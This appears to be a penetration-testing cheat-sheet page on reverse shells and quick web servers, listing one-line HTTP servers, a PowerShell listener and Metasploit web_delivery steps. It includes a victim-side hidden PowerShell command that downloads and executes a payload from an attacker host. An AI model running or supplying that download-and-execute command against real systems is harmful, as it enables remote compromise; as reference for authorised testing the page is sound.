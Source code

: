 ```yaml
---
title: Shells and Web Servers
category: Exploitation
order: 97
---
```


> **Reverse Shell One-Liners**

* [Reverse Shell One liners](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html)
* [Bash, PHP, Netcat, Telnet, Perl, Ruby, Java, Python, Gawk](https://highon.coffee/blog/reverse-shell-cheat-sheet/)

> **HTTP Servers One-Liners**

Python 2 | python -m SimpleHTTPServer 8000
Python 3 | python -m http.server 8000
ruby | <code> ruby -rwebrick -e'WEBrick::HTTPServer.new(:Port => 8000, :DocumentRoot => Dir.pwd).start' </code>
ruby 1.9.2+ | ruby -run -ehttpd . -p8000
perl | <code> perl -MHTTP::Server::Brick -e '$s=HTTP::Server::Brick->new(port=>8000); $s->mount("/"=>{path=>"."}); $s->start' </code>
php | php -S 127.0.0.1:8000
IIS Express | "C:\Program Files (x86)\IIS Express\iisexpress.exe" /path:C:\MyWeb /port:8000"
OpenSSL | <code> openssl req -newkey rsa:2048 -nodes -x509 -subj '/CN=name-you-want.example.com' -days 3650 -out server.cert -keyout server.key <br> openssl s_server -accept 7781 -cert server.cert -key server.key -WWW </code>


> **Powershell HTTP Servers**

{% highlight powershell %}
$Hso = New-Object Net.HttpListener
$Hso.Prefixes.Add("http://+:8000/")
$Hso.Start()
While ($Hso.IsListening) {
    $HC = $Hso.GetContext()
    $HRes = $HC.Response
    $HRes.Headers.Add("Content-Type","text/plain")
    $Buf = [Text.Encoding]::UTF8.GetBytes((GC (Join-Path $Pwd ($HC.Request).RawUrl)))
    $HRes.ContentLength64 = $Buf.Length
    $HRes.OutputStream.Write($Buf,0,$Buf.Length)
    $HRes.Close()
}
$Hso.Stop()
{% endhighlight %}

> **Script Web Delivery** 

On the attacker machine: 
{% highlight bash %}
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets
            ...targets...
msf exploit(web_delivery) > set TARGET <target-id>
msf exploit(web_delivery) > show options
            ...show and set options...
msf exploit(web_delivery) > exploit
{% endhighlight %}

On the victim: 
{% highlight bash %}
powershell.exe -nop -w hidden -c IEX ((new-object net.webclient).downloadstring('http://10.10.10.10:80/[randomstring]'))
{% endhighlight %}

Reference:
* [securitypadawan](https://securitypadawan.blogspot.com/2014/02/php-meterpreter-web-delivery.html)


> **Useful Resources** 

* [Powershell HTTPS Shell](http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-3.html)

